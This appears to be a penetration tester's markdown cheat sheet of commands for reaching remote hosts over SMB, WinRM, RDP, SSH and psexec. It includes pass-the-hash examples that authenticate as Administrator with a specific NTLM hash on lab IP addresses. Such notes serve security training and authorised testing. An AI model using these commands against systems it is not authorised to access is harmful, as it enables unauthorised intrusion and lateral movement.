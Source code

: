 # Remote Service Access 

### SMB

1. `impacket-smbclient [[domain/]username[:password]@]<targetName or address> `
- hashes are also accepted `-hashes`

2. smbclient \\\\192.168.199.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b 

### RPC / WinRM

1. `evil-winrm -i IP -u USER`
- hashes are also accepted `-H`

### RDP (remote desktop)

1. `xfreerdp /u:<user> /p:<pass> /v:<server>`
- can set hight of screen with `/h:<pixels>`

2. `Rdesktop <target IP>`
   
### SSH (setting up keys)
1. ssh -i id_rsa -p 2222 dave@192.168.230.201
- chmod 600 id_rsa 

### psexec

1. if SMB share is writable and RPC are open then psexec could be the method of authentication 
- `impacket-psexec [[domain/]username[:password]@]<targetName or address>`
  
2. impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212
- The first argument is -hashes, which allows us to use NTLM hashes to authenticate to the target. The format is "LMHash:NTHash", in which we specify the Administrator NTLM hash after the colon. Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
